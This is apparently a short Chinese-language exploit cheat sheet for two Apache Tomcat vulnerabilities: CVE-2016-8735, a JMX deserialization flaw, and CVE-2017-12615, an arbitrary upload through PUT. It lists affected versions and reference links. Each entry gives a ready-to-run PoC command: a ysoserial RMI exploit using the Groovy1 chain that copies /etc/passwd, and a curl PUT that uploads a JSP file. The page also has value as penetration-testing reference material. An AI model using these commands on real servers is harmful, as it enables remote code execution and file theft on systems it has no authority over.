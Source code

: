### CVE-2016-8735 - JmxRemoteLifecycleListener 反序列化漏洞

影响版本

* Apache Tomcat 9.0.0.M1 to 9.0.0.M11
* Apache Tomcat 8.5.0 to 8.5.6
* Apache Tomcat 8.0.0.RC1 to 8.0.38
* Apache Tomcat 7.0.0 to 7.0.72
* Apache Tomcat 6.0.0 to 6.0.47

参考链接

* [Apache Tomcat多版本远程代码执行CVE-2016-8735(附POC)](https://www.anquanke.com/post/id/85043)

Poc

```
java -cp /tmp/ysoserial.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 10001 Groovy1 "cp /etc/passwd /tmp"
```

### CVE-2017-12615 - tomcat PUT 任意文件上传漏洞

参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)

Poc

```
curl -vv -X PUT http://127.0.0.1/test.jsp/ -H 'Content-Type: text/plain' --data @test.jsp
```

